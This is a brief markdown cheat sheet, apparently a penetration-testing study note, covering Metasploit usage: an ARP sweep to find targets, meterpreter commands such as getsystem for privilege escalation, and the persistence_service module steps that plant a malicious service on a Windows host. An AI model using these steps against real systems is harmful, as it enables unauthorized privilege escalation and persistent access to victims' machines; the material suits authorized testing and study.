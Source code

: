 #### Arp Sweep Scan

```
ARP Sweep allows us to enumerate live hosts in the local network using ARP requests, providing us with a simple and fast way to identify possible targets.

```

#### Useful Commands
```
getsystem > Tries to obtain highest privilege on the remote system
getuid > Server Username
```

#### Maintaining Persistent Access on Windows Machine

```

background
use exploit/windows/local/persistence_service
show options
SESSION

set SESSION 1
exploit

```
> The module will generate a malicious file and upload it to the target machine. Then, it uses the same file to create a persistent service. When the service starts, it will run the uploaded file. As a result, we will receive a meterpreter session.




